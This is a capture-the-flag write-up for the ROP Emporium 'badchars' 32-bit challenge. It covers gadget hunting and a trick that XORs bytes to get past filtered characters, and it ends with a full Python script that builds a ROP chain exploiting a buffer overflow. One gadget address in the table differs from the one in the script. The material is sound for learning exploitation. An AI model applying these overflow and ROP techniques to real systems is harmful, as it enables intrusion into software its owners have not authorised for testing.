





# badchars
The challenge is available [here](https://ropemporium.com/challenge/badchars.html).

## Black-Box Test
The current challenge is actually identical to the previous one, except for the fact that there are some characters we cannot use in the ROP chain. The instructions tell us that the program reveals what those characters are, so let's get started.

```
./badchars32
```


So, we are prohibited from using the characters `"x"`, `"g"`, `"a"`, and `"."`. Let's try to see what happens to them when they enter the stack by using all four as a return address (which will obviously crash the program, and when we check where it failed, we will expect to see these characters)

```
perl -e 'print "X"x44 . "xga."' | ./badchars32
```
```
sudo dmesg -k | tail -2
```


This means that each of the forbidden characters gets converted to `\xeb` before being written to the stack, and we will need to bypass this.

## In-depth research
This challenge is indeed almost identical to the previous one, so there's no need for an extensive presentation here. I will show how to find the components we need for the ROP chain and the idea I'm going to use.

Let's start by finding where `print_file` is located:
```
rabin2 -i badchars32
```


Again, we will use the `.data` section to store the string "flag.txt."

```
readelf -S badchars32 | grep -e '[.]data'
```


The more artistic part of this challenge was finding the suitable gadgets and thinking of an idea based on the conditions. Still, there are some general guidelines we already know: we need gadgets that will `pop` values into registers and gadgets that will `mov` values from registers to memory. There also needs to be a correspondence between the registers, especially for the one used to hold the address in the `mov-gadget`. Additionally, we were given a hint to consider using the `XOR` operation. After some research and thought, I found the following gadgets in the picture. Right after this, I will present the idea for how to use them.

Note: Before searching for the gadgets, you need to update Ropper with the forbidden bytes. This is done in Ropper using the command `badbytes`.

```
python3 ~/ropper/Ropper.py
```
```
file badchars32
```
```
badbytes 7867612e
```
```
search pop
```
```
search /1/ mov [%], %
```
```
search /1/ xor
```


The general idea is that the string `"flag.txt"` will be entered in parts (like previous challenge). The difference this time is that the characters `"a"`, `"g"`, and `"."` will not be entered directly; instead, they will be entered as different characters, such that when we apply `XOR` with the value `0x01` (just for convenience), we will get the corresponding letter. For example, if we input `"AAA\x60"` and then apply `\x01 ^ \x60`, we get `\x61 (='a')` (So `"AAA\x60"` -> `"AAAa"`). After we handle all the necessary indexes in the current part of the string, we will input the next part in the same way.

From the gadgets we've collected, the usage of the registers is as follows:

* `EBP` will hold the address of the byte on which we will perform `XOR`.
* `EBX` will always hold the value `0x01` in the low byte (`BL`) for `XOR`.
* `ESI` will hold the characters of the string while transitioning to the `.data` section.
* `EDI` will hold the address of the `.data` section where we will transfer the characters of the string.

To summarize:
* To create `"flag"`:
    * We will input `"fl\x60f"`
    * Perform `0x01` XOR `0x60` => `"a"`
    * Perform `0x01` XOR `"f"` => `"g"`
* To create `".txt"`:
    * We will input `"\x2ftyt"`
    * Perform `0x01` XOR `0x2f` => `"."`
    * Perform `0x01` XOR `"y"` => `"x"`

And that was the idea. Now let's proceed to the complete solution.

## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type            | Address    | Description                                                       |
|---------------|-----------------|------------|-------------------------------------------------------------------|
| print_file    | Func            | 0x080483d0 | The entry address in the PLT table.                               |
| memory4string | Writable Memory | 0x0804a018 | .data segment addr will be where the string "flag.txt" is placed. |
| pop_bx        | Gadget          | 0x0804839d | pop ebx; ret;                                                     |
| pop_bp        | Gadget          | 0x080585bb | pop ebp; ret;                                                     |
| pop_si_di_bp  | Gadget          | 0x080485b9 | pop esi; pop edi; pop ebp; ret;                                   |
| mov2memory    | Gadget          | 0x0804854f | mov dword ptr [edi], esi; ret;                                    |
| xor2memory    | Gadget          | 0x08048547 | xor byte ptr [ebp], bl; ret;                                      |

And the next table describes the ROP chain itself:

| No | Chain Link                                                  | Note                                                                                        |
|----|-------------------------------------------------------------|---------------------------------------------------------------------------------------------|
| 1  | 44 garbage bytes                                            |                                                                                             |
| 2  | pop_bx, 0x01010101                                          | The lower byte will be used later for XOR operations.                                       |
| 3  | pop_si_di_bp, `"fl\x60f"`, memory4string, memory4string+2   | Each update of the EBP register sets it to the address of the next byte that will be XORed. |
| 4  | mov2memory                                                  | After this operation, the string will be `"fl\x60f"`.                                       |
| 5  | xor2memory                                                  | After this operation, the string will be `"flaf"`.                                          |
| 6  | pop_bp, memory4string+3                                     |                                                                                             |
| 7  | xor2memory                                                  | After this operation, the string will be `"flag"`.                                          |
| 8  | pop_si_di_bp, `"\x2ftyt"`, memory4string+4, memory4string+4 |                                                                                             |
| 9  | mov2memory                                                  | After this operation, the string will be `"flag\x2ftyt"`.                                   |
| 10 | xor2memory                                                  | After this operation, the string will be `"flag.tyt"`.                                      |
| 11 | pop_bp, memory4string+6                                     |                                                                                             |
| 12 | xor2memory                                                  | After this operation, the string will be `"flag.txt"`.                                      |
| 13 | print_file, "XXXX", memory4string                           |                                                                                             |

Where `"XXXX"` is the return address from the `print_file` function, which is not needed at all (it's there just to ensure that the parameter `memory4string` is in the right place on the stack).

All that remains is to build the Python script that creates the ROP chain, and we’re done!

```python
# chain_builder.py
import struct

def little_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in : little-endian format.
    """
    return struct.pack("<I", number)

# Parts of the chain
fill_buffer   = b"X"*44

print_file    = little_endian(0x080483d0)

memory4string = 0x0804a018

pop_bx        = little_endian(0x0804839d)
pop_bp        = little_endian(0x080485bb)
pop_si_di_bp  = little_endian(0x080485b9)
mov2memory    = little_endian(0x0804854f)
xor2memory    = little_endian(0x08048547) 

# Building the chain
ROP_Chain = fill_buffer
ROP_Chain += pop_bx + b"\x01\x01\x01\x01"
ROP_Chain += pop_si_di_bp + b"fl\x60f" + little_endian(memory4string) + little_endian(memory4string+2)
ROP_Chain += mov2memory
ROP_Chain += xor2memory
ROP_Chain += pop_bp + little_endian(memory4string+3)
ROP_Chain += xor2memory
ROP_Chain += pop_si_di_bp + b"\x2ftyt" + little_endian(memory4string+4) + little_endian(memory4string+4)
ROP_Chain += mov2memory
ROP_Chain += xor2memory
ROP_Chain += pop_bp + little_endian(memory4string+6)
ROP_Chain += xor2memory
ROP_Chain += print_file + b"XXXX" + little_endian(memory4string)

# Saving the chain in a binary file
with open("rop_chain", "wb") as f:
    f.write(ROP_Chain)
```
```
python3 chain_builder.py
```
```
cat rop_chain | ./badchars32
```
